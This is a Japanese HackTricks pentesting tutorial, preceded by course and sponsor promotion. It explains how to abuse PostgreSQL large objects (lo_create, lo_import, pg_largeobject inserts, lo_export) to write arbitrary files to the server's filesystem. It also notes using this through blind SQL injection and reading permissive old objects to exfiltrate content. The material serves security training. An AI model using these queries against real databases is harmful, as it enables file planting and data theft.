 <details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦で**フォロー**する：[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリに提出してください。**

</details>

### PostgreSQL Large Objects

PostgreSQLは、画像やPDFドキュメントなどの大規模なデータ型を保存するために設計された`pg_largeobject`テーブルを介してアクセス可能な**大規模オブジェクト**として知られる構造を提供しています。このアプローチは、`COPY TO`関数よりも優れており、データをファイルシステムに**エクスポート**することで、元のファイルの正確なレプリカが維持されます。

このテーブルに**完全なファイルを保存**するためには、`pg_largeobject`テーブルにオブジェクト（LOIDで識別される）を作成し、このオブジェクトに2KBごとのデータチャンクを挿入する必要があります。これらのチャンクが正確に2KBのサイズであること（最後のチャンクを除く可能性がある）は、エクスポート機能が正しく機能するために重要です。

バイナリデータを**2KBのチャンクに分割**するために、次のコマンドを実行できます：
```bash
split -b 2048 your_file # Creates 2KB sized files
```
各ファイルをBase64またはHexにエンコードするために、以下のコマンドを使用できます：
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**重要**: このプロセスを自動化する際は、2KBのクリアテキストバイトのチャンクを送信することを確認してください。 ヘックスエンコードされたファイルはサイズが倍になるため、1チャンクあたり4KBのデータが必要です。一方、Base64エンコードされたファイルは、`ceil(n / 3) * 4`の式に従います。

大きなオブジェクトの内容は、デバッグ目的で表示できます。
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### `lo_creat`とBase64を使用する

バイナリデータを保存するために、まずLOIDが作成されます：
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
状況に応じて正確な制御が必要な場合、Blind SQL Injectionを悪用する際には、固定のLOIDを指定するために`lo_create`が好まれます。

その後、データチャンクを以下のように挿入できます：
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
大きなオブジェクトをエクスポートして、使用後に削除するには:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### `lo_import`とHexの使用

`lo_import`関数を使用して、大きなオブジェクトのためのLOIDを作成および指定することができます：
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
以下のオブジェクト作成後、各ページごとにデータが挿入され、各チャンクが2KBを超えないようにします。
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
プロセスを完了するために、データがエクスポートされ、大きなオブジェクトが削除されます：
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### 制限事項

**大きなオブジェクトにはACL（アクセス制御リスト）がある可能性**があり、それによりユーザーが作成したオブジェクトへのアクセスが制限されることがあります。ただし、許可の大きなACLを持つ古いオブジェクトは、コンテンツの外部流出に対してまだアクセス可能かもしれません。
